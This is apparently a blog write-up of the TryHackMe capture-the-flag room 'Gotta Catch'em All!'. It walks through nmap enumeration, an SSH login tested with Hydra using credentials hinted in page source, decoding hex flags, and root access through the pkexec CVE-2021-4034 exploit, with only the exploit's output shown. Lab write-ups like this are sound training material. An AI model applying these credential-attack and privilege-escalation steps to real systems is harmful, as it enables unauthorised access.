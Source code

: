 ```yaml
---
title: "Gotta Catchem All"
date: 2025-02-11
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Gotta Catchem All
categories: [TryHackMe, Easy]
tags: [linux, pkexec]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Gotta Catch'em All!</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>This room is based on the original Pokemon series. Can you obtain all the Pokemon in this room?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/pokemon">https://tryhackme.com/room/pokemon</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Gotta Catch'em All!.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.177
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:54 EDT
Nmap scan report for 10.10.142.177
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 46.07 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.142.177
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:55 EDT
Nmap scan report for 10.10.142.177
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:14:75:69:1e:a9:59:5f:b2:3a:69:1c:6c:78:5c:27 (RSA)
|   256 23:f5:fb:e7:57:c2:a5:3e:c2:26:29:0e:74:db:37:c2 (ECDSA)
|_  256 f1:9b:b5:8a:b9:29:aa:b6:aa:a2:52:4a:6e:65:95:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Can You Find Them All?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.88 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The web server displayed the Apache2 default web page. I began by analyzing the source code, where one comment caught my attention:
```html
  <pokemon>:<h[removed]n>
  <!--(Check console for extra surprise!)-->
```

Before proceeding with the first string, I opened the console, and the following list of Pokémon's where displayed:
```text
Bulbasaur 
Charmander 
Squirtle 
Snorlax 
Zapdos
Mew
Charizard 
Grimer
Metapod
Magikarp 
```

At this point, I wasn't sure if the list of Pokémon's was something like a username or password list. I began testing combinations using Hydra and got a match:
```bash   
$ hydra -l 'pokemon' -p 'h[removed]n' ssh://10.10.142.177         
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 11:09:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.10.142.177:22/
[22][ssh] host: 10.10.142.177   login: pokemon   password: h[removed]n
```

Since I found a valid credential combination, I was able to connect via SSH:
```bash
kali@kali:~/ctf/pokemon$ ssh pokemon@10.10.142.177

pokemon@root:~$ 
```

I continued by enumerating the system and found an interesting ZIP archive. After unzipping it, I discoverd an interesting file:
```bash
pokemon@root:~Desktop$ ls
  P0kEmOn.zip
pokemon@root:~/Desktop$ unzip P0kEmOn.zip 
Archive:  P0kEmOn.zip
   creating: P0kEmOn/
  inflating: P0kEmOn/grass-type.txt  
pokemon@root:~/Desktop$ ls
  P0kEmOn  P0kEmOn.zip
pokemon@root:~/Desktop$ cd P0kEmOn/
pokemon@root:~/Desktop/P0kEmOn$ ls
  grass-type.txt
pokemon@root:~/Desktop/P0kEmOn$ cat grass-type.txt
  50 6f 4b [removed] 75 72 7d
```

It appears to contain hex values, so I pasted the string into CyberChef and was able to decode it:

![Decoding Grass Type](/assets/img/tryhackme/pokemon/thm_pokemon_1.jpg)

I continued enumerating the system and found another file with the same naming pattern as the previous one:
```bash
pokemon@root:/var/www/html$ ls
  index.html  water-type.txt
pokemon@root:/var/www/html$ cat water-type.txt 
  E[removed]}
```

![Decoding Water Type](/assets/img/tryhackme/pokemon/thm_pokemon_2.jpg)

Since the second file followed the same naming pattern as the first, I tried to search for another Pokémon type:
```bash
pokemon@root:/var/www/html$ locate fire-type.txt
  /etc/why_am_i_here?/fire-type.txt
```

![Decoding Fire Type](/assets/img/tryhackme/pokemon/thm_pokemon_3.jpg)

## Privilege Escalation root

I continued by checking for SUID bits and discoverd that pkexec had its SUID bit set. I used the exploit described in CVE-2021-4034 and successfully gained root access:
```bash
pokemon@root:~$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/pkexec
  [...]
pokemon@root:~$ python3 exploit.py 
Do you want to choose a custom payload? y/n (n use default payload) n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7fa8a2e7f4e8 at 0x7fa8a2d13668>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
  root
# cd /root
# cat roots-pokemon.txt
  P[removed]!
```

solved! :)